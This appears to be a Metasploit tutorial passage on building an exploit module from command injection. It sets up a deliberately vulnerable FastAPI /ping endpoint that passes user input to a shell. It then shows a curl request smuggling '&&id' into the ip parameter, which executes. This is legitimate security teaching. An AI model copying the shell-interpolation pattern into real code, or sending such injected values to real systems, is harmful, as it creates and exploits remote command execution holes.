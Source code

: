 If you've found a way to execute a command on a target, and you'd like to make a simple exploit module to get a shell, this guide is for you. By the end of this guide you'll understand how to turn [Command injection](https://owasp.org/www-community/attacks/Command_Injection) into a shell - from here, you can move on to the [[command stager|How-to-use-command-stagers]] article and upgrade your basic `:unix_cmd` Target to a Dropper for all kinds of payloads with variable command stagers.

This guide assumes *some* knowledge of programming (Understand what a class is, what methods/functions are) but expects no in-depth knowledge of Metasploit internals.

## A Vulnerable Service

For the vulnerable service test case, we'll be using a simple FastAPI service. This is very easy to spin up:

1. Install `fastapi[all]` using your preferred Python package manager (a virtual environment is recommended)
2. Create a file to hold some Python code (I'll call it `main.py`)
3. Copy the following code into your file:

    ```python
    from fastapi import FastAPI, Response
    import subprocess

    app = FastAPI()

    @app.get("/ping")
    def ping(ip : str):
        res = subprocess.run(f"ping -c 1 {ip}", shell=True, capture_output=True)
        return Response(content=res.stdout.decode("utf-8"), media_type="text/plain")
    ```

4. Start your vulnerable service with `uvicorn main:app`
5. Test that the application works with `curl`:

    ```sh
    $ curl http://localhost:8000/ping?ip=1.1.1.1
    PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
    64 bytes from 1.1.1.1: icmp_seq=1 ttl=58 time=16.7 ms

    --- 1.1.1.1 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 16.739/16.739/16.739/0.000 ms
    ```

6. Test that your application is exploitable - also with `curl`:

    ```sh
    $ curl localhost:8000/ping?ip=1.1.1.1%20%26%26id
    PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
    64 bytes from 1.1.1.1: icmp_seq=1 ttl=58 time=16.6 ms

    --- 1.1.1.1 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 16.614/16.614/16.614/0.000 ms
    uid=1000(meta) gid=1000(meta)
    ```
